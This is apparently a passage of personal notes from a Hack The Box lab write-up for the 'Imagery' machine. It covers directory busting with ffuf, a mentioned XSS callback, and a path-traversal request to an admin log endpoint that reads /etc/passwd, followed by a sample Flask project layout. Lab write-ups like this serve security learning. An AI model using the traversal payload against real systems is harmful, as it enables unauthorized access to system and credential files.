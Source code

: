 2 user account . Admin and the other one is ours.
An admin panel exists . Keep note of that and don't jump to conclusions about access.

Admin session might let us enumerate paths. Do a little dir busting with admin session. Lets do ffuf to do dirbusting with admin session.

```bash
┌──(teja㉿x50ubr)-[~/…/HTB/Machines/Active/Imagery]
└─$ cat admin.dir.results | jq . | grep url
      "url": "http://10.10.11.88:8000/images",
      "url": "http://10.10.11.88:8000/login",
      "url": "http://10.10.11.88:8000/register",
      "url": "http://10.10.11.88:8000/logout",
      "url": "http://10.10.11.88:8000/upload_image",
    "proxyurl": "",
    "replayproxyurl": "",
    "url": "http://10.10.11.88:8000/FUZZ",

```

Okay you'll get bug report XSS callback when you upload an image . Huhh

Lets revisit the dir bustinng ouput to see what endpoints we can visit as admin . Maybe I am missing something

Running ffuf with new wordlist with admin session and visited the debug and console endpoints . But NOPE

Lets see what download log button gives out. Nothing that interesting
But I've noticed we have LFI in get_system_log endpoint
	- `http://10.10.11.88:8000/admin/get_system_log?log_identifier=/../../../../../../../../../etc/passwd`

###### And we have these users
- root:x:0:0:root:/root:/bin/bash
- web:x:1001:1001::/home/web:/bin/bash
- mark:x:1002:1002::/home/mark:/bin/bash

###### Lets see etc/hosts and see what we can get
- 127.0.0.1 localhost
- 127.0.0.1 Imagery imagery.htb

Maybe there is a folder in /var/www called imagery.htb ??
And lets look at flask dir structure to see what we can get interestingly

```bash
my-flask-app/
    ├── app/
    │   ├── __init__.py
    │   ├── views.py  # or routes.py
    │   ├── models.py
    │   ├── forms.py
    │   ├── static/
    │   │   ├── css/
    │   │   │   └── style.css
    │   │   ├── js/
    │   │   │   └── main.js
    │   │   └── img/
    │   │       └── logo.png
    │   └── templates/
    │       ├── base.html
    │       ├── index.html
    │       └── auth/
    │           └── login.html
    ├── config.py
    ├── run.py
    ├── requirements.txt
    ├── .flaskenv
```